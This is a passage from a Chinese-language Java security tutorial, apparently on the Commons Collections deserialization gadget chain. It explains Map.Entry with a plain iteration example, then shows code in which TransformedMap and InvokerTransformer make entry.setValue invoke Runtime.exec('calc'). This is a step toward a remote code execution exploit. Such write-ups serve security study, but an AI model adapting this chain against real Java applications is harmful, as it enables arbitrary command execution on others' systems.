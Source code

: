 在Java中，`Map.Entry` 是一个表示 `Map` 接口中的键值对的接口。`Map` 接口是Java中用于存储键值对的集合接口，而 `Map.Entry` 就代表了这些键值对的条目。

`Map.Entry` 接口定义了两个主要的方法：

1. **getKey():** 用于获取键（key）。
2. **getValue():** 用于获取值（value）。

这个接口通常与`Map`的`entrySet()`方法一起使用，该方法返回一个包含`Map.Entry`对象的`Set`集合，其中每个`Map.Entry`对象代表`Map`中的一个键值对。		

遍历例子：

```java
 public static void main(String[] args) {
        // 创建一个Map
        Map<String, Integer> map = new HashMap<>();
        map.put("One", 1);
        map.put("Two", 2);
        map.put("Three", 3);

        // 使用 entrySet() 获取 Map 中的键值对
        for (Map.Entry<String, Integer> entry : map.entrySet()) {
            System.out.println("Key: " + entry.getKey() + ", Value: " + entry.getValue());
        }
    }
```

`AbstractInputCheckedMapDecorator`类中的 `MapEntry`类中的`setValue`方法其实就是`Map`中的`setValue`进行了重写（`AbstractInputCheckedMapDecorator`的父类实现了`Map`）

![image-20240306163816579](assets/image-20240306163816579.png)

`AbstractInputCheckedMapDecorator`类又引入了` Map.Entry `接口，还存在`setValue `方法，所以我们只需要进行常用的 `Map` 遍历，就可以调用 `setValue `方法，然后调用 `checkSetValue` 方法然后就变成了这样：

```java
    public static void main(String[] args) throws Exception {
        Runtime r = Runtime.getRuntime();
        InvokerTransformer invokerTransformer = new
                InvokerTransformer("exec", new Class[]{String.class}, new
                Object[]{"calc"});
        HashMap<Object, Object> map = new HashMap<>();//new 一个 map
        map.put("key", "value");//对 map 进行赋值
        Map<Object, Object> transformedmap = TransformedMap.decorate(map, null, invokerTransformer);
        for (Map.Entry entry : transformedmap.entrySet()) {//将transformedmap 传进去，会自动调用到父类里面的 setValue 方法：
            entry.setValue(r);
        }
    }
```
